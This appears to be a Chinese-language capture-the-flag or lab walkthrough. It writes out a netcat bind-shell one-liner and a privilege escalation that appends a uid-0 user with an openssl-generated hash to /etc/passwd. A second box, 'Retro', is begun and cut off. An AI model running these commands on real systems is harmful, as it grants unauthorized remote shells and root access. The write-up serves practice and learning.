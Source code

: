 扫描出8080有个终端 有个wp登录页面 

## 绑定shell
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f

nc -nv TARGET_IP 8080
```

![image.png](https://s2.loli.net/2025/04/21/j4hebsy8r6wWkcF.png)

## 信息收集

![image.png](https://s2.loli.net/2025/04/21/KJtFU7h4xTMXSdv.png)

![image.png](https://s2.loli.net/2025/04/21/BbHVy8ugDM794Ok.png)


![image.png](https://s2.loli.net/2025/04/21/qVJhyIMz7c8WG4C.png)

## 1./etc/passwd写入root提权

在这里会发现 brexit有修改/etc/passwd的权限 得切换到brexit用户

![image.png](https://s2.loli.net/2025/04/21/7gsl6S3N1o5tTBE.png)


```
sudo -u brexit /bin/bash
# 刚好/bin/bash没有密码
```

用openssl创建一个账户密码 将这个root权限用户写进/etc/passwd 就能提权了

```
openssl passwd -1 -salt qq qwe


echo 'qq:$1$qq$oMgRCtJEEoFVvNbosRA.B1:0:0::/root:/bin/bash' >> /etc/passwd

su qq
```

# Retro
## nmap扫描端口
发现就只有一个端口 访问是一个iis服务

## 目录爆破 
用了个大字典 爆出了一个路径 
